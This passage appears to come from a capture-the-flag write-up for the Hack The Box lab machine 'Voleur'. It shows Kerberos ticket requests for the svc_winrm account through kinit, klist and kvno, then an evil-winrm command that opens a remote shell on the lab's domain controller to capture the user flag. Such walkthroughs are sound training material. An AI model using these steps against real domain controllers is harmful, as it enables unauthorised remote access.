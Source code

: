 ![w](/assets/img/attachments/voleur-7.png)
Request TGT for this user
```bash
┌──(kali㉿kali)-[~/Machines/voleur]
└─$kinit svc_winrm@VOLEUR.HTB                                                               
Password for svc_winrm@VOLEUR.HTB: 
                                                                                                                                                                                  
┌──(kali㉿kali)-[~/Machines/voleur]
└─$ klist                     
Ticket cache: FILE:ryan.naylor.ccache
Default principal: svc_winrm@VOLEUR.HTB

Valid starting       Expires              Service principal
07/11/2025 22:57:05  07/12/2025 08:57:05  krbtgt/VOLEUR.HTB@VOLEUR.HTB
        renew until 07/12/2025 22:56:56
                                                                                                                                                                                  
┌──(kali㉿kali)-[~/Machines/voleur]
└─$ kvno cifs/DC.voleur.htb
cifs/DC.voleur.htb@VOLEUR.HTB: kvno = 5
                                                                                                                                                                                  
┌──(kali㉿kali)-[~/Machines/voleur]
└─$ klist                  
Ticket cache: FILE:ryan.naylor.ccache
Default principal: svc_winrm@VOLEUR.HTB

Valid starting       Expires              Service principal
07/11/2025 22:57:05  07/12/2025 08:57:05  krbtgt/VOLEUR.HTB@VOLEUR.HTB
        renew until 07/12/2025 22:56:56
07/11/2025 22:57:25  07/12/2025 08:57:05  cifs/DC.voleur.htb@VOLEUR.HTB
        renew until 07/12/2025 22:56:56
```
Then get initial access
```bash
evil-winrm -i dc.voleur.htb -u 'svc_winrm' -r voleur.htb
```
![w](/assets/img/attachments/voleur-8.png)
Finally got user flag!